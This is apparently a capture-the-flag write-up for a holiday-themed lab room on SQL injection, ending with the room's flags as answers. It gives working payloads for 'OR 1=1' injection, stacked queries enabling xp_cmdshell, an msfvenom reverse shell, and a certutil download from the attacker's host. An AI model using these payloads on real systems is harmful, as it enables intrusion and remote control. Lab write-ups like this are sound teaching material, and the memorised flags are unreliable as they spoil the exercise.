 # Day_10 [SQLInjection] Inject the Halls with EXEC Queries

+ Deployable Machine: Yes

Description: The Best Festival Company started receiving many reports that their company website, bestfestival.thm, is displaying some concerning information about the state of Christmas this year! After looking into the matter, Santa's Security Operations Center (SSOC) confirmed that the company website has been hijacked and ultimately defaced, causing significant reputational damage. To make matters worse, the web development team has been locked out of the web server as the user credentials have been changed. With no other way to revert the changes, Elf Exploit McRed has been tasked with attempting to hack back into the server to regain access. This forum post surely explains the havoc that has gone on over the past week. Armed with this knowledge, Elf Exploit McRed began testing the company website from the outside to find the vulnerable components that led to the server compromise. As a result of McRed's thorough investigation, the team now suspects a possible SQL injection vulnerability.

> IP: [10.10.168.236]

## LEARNING OBJECTIVES

1. Learn to understand and identify SQL injection vulnerabilities
2. Exploit stacked queries to turn SQL injection into remote code execution
3. Help Elf McRed restore the Best Festival website and save its reputation!

## OVERVIEW

1. xp_cmdshell
   1. xp_cmdshell is a system-extended stored procedure in Microsoft SQL Server that enables the execution of operating system commands and programs from within SQL Server. It provides a mechanism for SQL Server to interact directly with the host operating system's command shell. While it can be a powerful administrative tool, it can also be a security risk if not used cautiously when enabled.

## STEPS

1. Deploy Machine
2. Navigate to website
   1. At first we see a defaced website
   2. All the links are anchors to sections on the home page
   3. One link takes you to a separate page `/giftsearch.php`
   4. Lets test the search function
3. GIFTSEARCH.PHP
   1. Set search to age -> child, interests -> toys, budget -> $10
      1. The URL redirects with the parameters to: "/giftresults.php?age=child&interests=toys&budget=10"
   2. So lets try injection
      1. "/giftresults.php?age=' OR 1=1 --"
         1. This outputs every toy, and at the end of the database entries we see `THM{a4ffc901c27fb89efe3c31642ece4447}`
   3. Lets try an injection that shouldn't work that way we can hopefully see an error
      1. "/giftresults.php?age='&interests=toys&budget=10"
         1. RESPONSE:

            ```text
               Database query error: Array ( [0] => Array ( [0] => 42000 [SQLSTATE] => 42000 [1] => 102 [code] => 102 [2] => [Microsoft][ODBC Driver 17 for SQL Server][SQL Server]Incorrect syntax near 'toys'. [message] => [Microsoft][ODBC Driver 17 for SQL Server][SQL Server]Incorrect syntax near 'toys'. ) [1] => Array ( [0] => 42000 [SQLSTATE] => 42000 [1] => 105 [code] => 105 [2] => [Microsoft][ODBC Driver 17 for SQL Server][SQL Server]Unclosed quotation mark after the character string ''. [message] => [Microsoft][ODBC Driver 17 for SQL Server][SQL Server]Unclosed quotation mark after the character string ''. ) )
            ```

            1. In here we can see that the ODBC Driver is `ODBC Driver 17 for SQL Server`
4. XP_CMDSHELL
   1. Manually enable xp_cmdshell
      1. Payload "giftresults.php?age='; EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE; --"
      2. Now we should be able to run commands with EXEC
5. EXPLOIT
   1. MSFVENOM
      1. We need to craft a payload specifically for our "Microsoft SQL Server"
         1. > msfvenom -p windows/x64/shell_reverse_tcp LHOST=[MY_IPP_ADDR] LPORT=4444 -f exe -o reverse.exe
            1. Success! Now we have a reverse.exe file
   2. PYTHON SERVER
      1. We need to now host a local server that way our payload can be "downloaded" from our attack machine to the remote machine
         1. > python3 -m http.server
   3. SQLi PAYLAOD
      1. Now we need to craft our SQL Injection
         1. "/giftresults.php?age='; EXEC xp_cmdshell 'certutil -urlcache -f http://[MY_IPP_ADDR]:8000/reverse.exe C:\Windows\Temp\reverse.exe'; --"
            1. And now we shoudl see our python server see a request!
               1. Success!
   4. RCE
      1. Now that we have "uploaded" our reverse shell we setup a netcat listner and then invoke the command to execute reverse.exe
         1. > nc -lnvp 4444
         2. EXECUTE: "giftresults.php?age='; EXEC xp_cmdshell 'C:\Windows\Temp\reverse.exe'; --"
            1. SUCCESS!!!
6. ENUMERATION
   1. Lets look for a note
      1. > cd C:\Users\Administrator\Desktop
      2. > dir 
         1. We see a note.txt lets look at it
            1. > type Note.txt

               ```text
                  Hey h4ck3r0192,

                  I recieved your Bitcoin payment, thanks again for a speedy transaction.
                  After you gain access to the server, you can deface the website by running the deface_website.bat script in C:\Users\Administrator\Desktop. Feel free to dump the database and steal whatever you want.
                  If you need to revert the changes back to the original site for any reason, just run restore_website.bat from the same directory.
                  Also, I shouldn't need to mention this, but PLEASE DELETE this Note.txt file after defacing the website! Do NOT let this hack tie back to me.
                  -Gr33dstr

                  THM{b06674fedd8dfc28ca75176d3d51409e}
               ```

7. RESTORE SITE
   1. In the note we see there is a deface-website.bat, but there is alos a restore_website.bat file on the desktop lets run it!
      1. > .\restore_website.bat

         ```text
            Removing all files and folders from C:\inetpub\wwwroot...
            Website restoration completed. Please refresh the home (/index.php) page to see the changes and obtain your flag!
         ```

      2. Now lets go back to the home page
         1. FLAG: `THM{4cbc043631e322450bc55b42c}`


## QUESTIONS

1. Manually navigate the defaced website to find the vulnerable search form. What is the first webpage you come across that contains the gift-finding feature?
   1. `/giftsearch.php`
2. Analyze the SQL error message that is returned. What ODBC Driver is being used in the back end of the website?
   1. `ODBC Driver 17 for SQL Server`
3. Inject the 1=1 condition into the Gift Search form. What is the last result returned in the database?
   1. `THM{a4ffc901c27fb89efe3c31642ece4447}`
4. What flag is in the note file Gr33dstr left behind on the system?
   1. `THM{b06674fedd8dfc28ca75176d3d51409e}`
5. What is the flag you receive on the homepage after restoring the website?
   1. `THM{4cbc043631e322450bc55b42c}`